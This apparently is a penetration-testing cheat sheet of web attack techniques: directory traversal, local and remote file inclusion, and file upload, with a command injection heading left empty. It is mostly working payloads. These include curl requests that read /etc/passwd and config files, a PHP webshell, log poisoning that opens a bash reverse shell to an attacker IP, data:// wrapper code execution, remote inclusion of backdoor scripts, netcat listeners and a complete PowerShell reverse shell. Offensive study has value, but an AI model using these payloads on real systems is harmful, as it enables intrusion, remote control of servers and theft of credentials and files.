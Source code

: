 # Directory traversal

Example: `curl http://vulnsite/index.php?page=../../../../../../etc/passwd`
Windows (check both `/` and `\`):
```
curl http://vulnsite/index.php?page=..\..\..\..\..\..\Windows\System32\drivers\etc\hosts
curl http://vulnsite/index.php?page=../../../../../../inetpub\logs\LogFiles\W3SVC1\
curl http://vulnsite/index.php?page=../../../../../../wwwroot\web.config
```

Grafana CVE: https://golangexample.com/cve-2021-43798-grafana-8-x-path-traversal-pre-auth/ \
Apache 2.4.49 CVE: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41773

## File inclusion

### Local file inclusion

Php snipet:
```
<?php echo system($_GET['cmd']);?>
```
and poison the log files with a Header (e.g. [User-Agent](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/User-Agent)) or another user controled field. Then traverse the directories to the log file:
```
http://sitetohack/index.php?page=../../../../../../../../../../var/log/apache2/access.log&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F___AttackerIP___%2F___AttackerPort___%200%3E%261%22
```

Wrappers:
- all: https://www.php.net/manual/en/wrappers.php
- php: https://www.php.net/manual/en/wrappers.php.php
- data: https://www.php.net/manual/en/wrappers.data.php

Examples:
```
curl http://site/index.php?page=php://filter/resource=somepage.php
curl http://site/index.php?page=php://filter/convert.base64-encode/resource=somepage.php
curl http://site/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>
echo -n '<?php echo system($_GET["cmd"]);?>' | base64
curl http://site/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"

### Remote file inclusion

Examples:
- https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/php/simple-backdoor.php
- https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```
kali$ python -m http.server 80
kali$ curl "http://sitetohack/index.php?page=http://IpAttacker/simple-backdoor.php&cmd=ls"
kali$ nc -lnvp 4444
kali$ curl "http://sitetohack/index.php?page=http://IpAttacker/php_reverse_shell.php"
```

Interactive TTY: https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
```
python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/sh")'
```

## File upload

Test rarer extensions and upper/lowercase mix. \
Powershell reverse shell: https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3
```
$client = New-Object System.Net.Sockets.TCPClient('$AttackerIp',$AttackerPort);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
Beware of simple and double quotes... \
Webshells on Kali: `/usr/share/webshells`

Overwrite ssh keys in `/home/someuser/.ssh/authorized_keys`

## Command injection



